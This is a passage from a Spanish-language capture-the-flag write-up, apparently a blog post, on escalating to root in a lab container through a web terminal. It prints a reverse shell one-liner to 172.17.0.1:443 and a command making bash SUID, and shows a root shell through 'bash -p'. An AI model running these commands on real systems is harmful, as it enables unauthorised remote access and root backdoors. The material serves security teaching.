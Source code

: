 En este punto tendríamos varias formas para elevar nuestros privilegios ya que estamos ejecutando comandos como `root`. Podríamos hacer  la `bash` un binario `suid`, enviarnos la clave privada `ssh` de `root`, o ganar acceso directamente con una `reverse shell`. Pero si lo intentamos directamente no podremos

~~~ bash
/bin/sh -c '/bin/sh -i >& /dev/tcp/172.17.0.1/443 0>&1' 2>&1;
~~~

> Podemos intentar asignar el bit `SUID` a la `bash`, antes de asumir la ruta, podemos ver donde está con el comando `which`.
{: .notice--danger}

Enviaremos el comando a la terminal web para hacer la `bash`, un binario `suid`

~~~ bash
chmod 4755 /usr/bin/bash;
~~~

Ahora nos queda comprobar que se haya asignado correctamente este permiso. Podemos aprovechar esto usando el parámetro `-p` de `bash` para ejecutarlo como el propietario, que en este caso es `root`

~~~ bash
sam@78d96ca5e22c:/var/www/terminal$ ls -l /usr/bin/bash
-rwsr-xr-x 1 root root 1446024 Mar 31  2024 /usr/bin/bash
sam@78d96ca5e22c:/var/www/terminal$ bash -p
bash-5.2# whoami
root
~~~

Espero que hayas aprendido con esta guía, gracias por leer, de dejo la cita del día...

> Age does not protect you from love. But love, to some extent, protects you from age.
> — Anais Nin
{: .notice--info}
